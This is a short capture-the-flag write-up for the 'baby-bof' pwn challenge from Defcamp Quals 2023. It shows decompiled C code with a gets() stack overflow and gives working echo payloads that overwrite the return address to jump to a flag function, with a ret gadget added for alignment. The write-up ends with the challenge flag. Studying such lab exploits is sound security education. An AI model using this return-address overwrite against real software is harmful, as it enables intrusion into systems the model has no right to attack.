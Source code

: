```yaml
---
title: baby-bof
date: 2023-10-22T09:56:31+03:00
description: Writeup for baby-bof [Defcamp Quals 2023]
type: writeup
author: sunbather
tags:
  - pwn
draft: false
---
```


___

## Challenge Description

This is a basic buffer overflow.

Flag format: CTF{sha256}

### Intuition

By decompiling we see an obvious buffer overflow and a ``flag`` function that we can jump to.

```c
void flag(void)
{
  char local_98 [136];
  FILE *local_10;
  
  local_10 = fopen("flag.txt","r");
  if (local_10 == (FILE *)0x0) {
    puts("Well done!! Now use exploit remote! ");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  fgets(local_98,0x80,local_10);
  printf(local_98);
  return;
}


/* Called by the main function */
void vuln(void)
{
  char local_138 [304];
  
  gets(local_138);
  return;
}

```
PIE is not enabled so we can just hardcode the addresses in an echo.

### Solution

Simply echo to the binary:
```
$ echo -ne 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x67\x07\x40\x00\x00\x00\x00\x00' | ./bof
Please enter the flag: 
Segmentation fault (core dumped)
```
This crashes because of alignment issues. Let's fix it with a ret gadget address (found with ROPGadget) to align it back:

```
echo -ne 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xde\x05\x40\x00\x00\x00\x00\x00\x67\x07\x40\x00\x00\x00\x00\x00' | ./bof
```

#### Flag

```ctf{c7fabc6bfe7e4b40b78244854f95f089414bb8354e021f89fe632202bb35ef99}```
